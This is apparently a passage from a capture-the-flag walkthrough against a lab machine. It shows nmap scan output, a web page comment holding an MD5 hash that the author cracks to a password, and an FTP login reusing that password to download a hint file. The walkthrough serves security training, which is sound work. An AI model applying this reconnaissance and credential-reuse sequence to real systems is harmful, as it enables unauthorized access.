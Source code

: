```
Completed NSE at 10:24, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:24
Completed NSE at 10:24, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:24
Completed NSE at 10:24, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

Checked for anonymous ftp login , it says access denied so move towords port 80 which is runnig default web apache service

```
curl http://10.0.2.96/
```
on reviewing the apache default page at end of code there is some code commented out seems to be intresting  

```html
</html>
<!...<5f2a66f947fa5690c26506f66bde5c23> follow this to get access on somewhere.....-->

```

its a `md5` hash on decoding it revels

`5f2a66f947fa5690c26506f66bde5c23:hostinger`

reuse! login's 
so login the hostinger users with same passwd 

```
ftp 10.0.2.96
Connected to 10.0.2.96.
220 (vsFTPd 3.0.3)
Name (10.0.2.96:user): hostinger
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 May 20 17:41 .
dr-xr-xr-x    3 65534    65534        4096 May 20 17:41 ..
drwxr-xr-x    2 1002     1002         4096 May 21 23:43 files
226 Directory send OK.
ftp> cd files 
250 Directory successfully changed.
ftp> ls 
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             384 May 21 23:43 hint.txt
226 Directory send OK.
ftp> get hint.txt 
local: hint.txt remote: hint.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for hint.txt (384 bytes).
226 Transfer complete.
384 bytes received in 0.00 secs (824.1758 kB/s)
```